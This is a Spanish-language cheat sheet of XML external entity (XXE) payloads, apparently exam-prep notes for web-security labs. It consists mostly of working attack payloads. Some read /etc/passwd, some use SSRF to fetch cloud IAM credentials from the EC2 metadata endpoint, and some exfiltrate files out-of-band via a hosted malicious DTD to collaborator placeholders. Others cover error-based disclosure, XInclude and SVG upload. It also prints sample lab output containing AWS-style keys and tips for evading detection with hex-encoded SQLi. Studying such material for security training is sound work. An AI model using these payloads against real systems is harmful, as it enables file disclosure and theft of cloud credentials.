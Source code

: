 ## ¿Qué es XML?

XML significa "lenguaje de marcado extensible". XML es un lenguaje diseñado para almacenar y transportar datos. Al igual que HTML, XML utiliza una estructura de etiquetas y datos similares a árboles. A diferencia de HTML, XML no usa etiquetas predefinidas, por lo que las etiquetas pueden recibir nombres que describan los datos. Anteriormente en la historia de la web, XML estaba de moda como un formato de transporte de datos (el "X" en "AJAX" significa "XML"). Pero su popularidad ha declinado ahora a favor del formato JSON.

#### Si ninguno de estos ataques funciona y el ataque es `detected attack` toca un SQLi injection encodeado a Hex, en la sección de SQLi lo tengo detallado. 

#sqli

```xml
<!DOCTYPE test [<!ENTITY xxe SYSTEM "http://169.254.169.254/">]>
No olvidar llamar la variable &xxe; dentro de <productId>&xxe;<productId/>
```

- XXE -> Basic LFI

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE productId [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<stockCheck><productId>&test;</productId><storeId>1</storeId></stockCheck>
```

- XXE -> SSRF

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://169.254.169.254/'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

Seguir el endpoint hasta donde podemos llegar, en el lab por ejm es así: 
<!DOCTYPE foo [ <!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```

- XXE -> Out of Band Interaction

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://COLLABORATOR'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

- XXE -> Blind with out-of-band interaction

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://BURP-COLLAB'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck> 
```

- XXE -> Out of Band Interaction via parameter entity

![burp-scan](Pasted%20image%2020250221075203.png)

```html
<?xml version="1.0" encoding="UTF-8"?>
simplemente añadimos este encima de <stockCheck>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://COLLABORATOR"> %xxe; ]>

```

- XXE -> Exfiltrate data with .DTD `server exploit`

```xml
//dejar el server exploit con /testing.dtd -->

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://COLLABORATOR?x=%file;'>">
%eval;
%exfiltrate;

//En el endpoint del lab que contenga la request con el XML añadir lo siguiente: 

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://SERVER-EXPLOIT/testing.dtd"> %xxe; ]>
<stockCheck><productId>2</productId><storeId>2</storeId></stockCheck>

//luego analizar nuestro burp collaborator para ver si nos llega algo interesante de lo que pasamos. 

```

- XXE -> Exfiltrate data via error messages `server exploit`

```xml
//dejar el server exploit con /testing.dtd -->

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///invalid/%file;'>">
%eval;
%error;

//En el endpoint del lab que contenga la request con el XML añadir lo siguiente:

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % testingFelipe SYSTEM "http://SERVER-EXPLOIT/testing.dtd"> %testingFelipe;]>
<stockCheck><productId>2</productId><storeId>2</storeId></stockCheck>
```

- XXE -> Use XInclude in a parameter (url encode the payload) `ProductId`
	- Podemos encodear el payload a url, o no, ya depende. 

```html
?productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

or

<xi:include xmlns:xi="http://www.w3.org/2001/XInclude" href="{filePath}" parse="text"/>
```

* XXE -> Retrieving Data by a local DTD `docbookx.dtd` 
	El archivo local puede variar, dependiendo del lab. 

*![[Pasted image 20250216124148.png]]

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
<stockCheck><productId>2</productId><storeId>2</storeId></stockCheck> //si obtenemos un 200ok perfecto. 

//Ahora si, tiramos el comando esencial para producir el error de parsing de file local y desencadene el disclosure ->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> <!ENTITY % ISOamso ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '> %local_dtd; ]>
<stockCheck><productId>2</productId><storeId>2</storeId></stockCheck> 
//En este caso no necesitamos de un server externo para alojar el file ya que nos referimos a un archivo local existente en el server, basta con hacer la request directamente en el xml.
```

- XXE -> XXE on SVG

```html
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

### XXE to perform SSRF

```xml
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://169.254.169.254/'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://169.254.169.254/latest/meta-data/iam/security-credentials/admin'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

Gives = "Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2024-01-04T10:03:06.016826989Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ZgBxuLo1qUbadDsb5agi",
  "SecretAccessKey" : "62J0cLHKUttLOoKaXvTc55LgWDRLEuv7S6jfIQSc",
  "Token" : "tyIjMrJIsrPDFGSmR9u4hqFqjzxIx7yO9h8dshFOBPTNkBpvCY0jou4GcFhxBkzetcXYr8oWTS1uWYhyyxiStHap8tv6q83xWT8dHus70bXuuZjeD6w0jTzuQy1vakLar6k2apXbrrhj3fpZVNM7XKwPVTFPg2degLdeMSPCXRWgsD5D2Uoyjd9LkFMwLsdk2hFpIGW89uvX1xY4EKTNzipFL3irC3C2Jr49uCCtvDCGCEa6iwLeySLjttI5LUS7",
  "Expiration" : "2030-01-02T10:03:06.016826989Z"
}"


<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///Windows/System32/drivers/etc/hosts" > ]>

```

* ##### Abusing XInclude

```xml 
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

productId=<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```

* ##### XXE on svg image

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
 
 * #### xmlns load etc/passwd

```xml
<rpo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></rpo>
```

eso sería todo,  si lees esto significa que estás revisando mi repo por todo lado, bueno mucha suerte en tu examen! 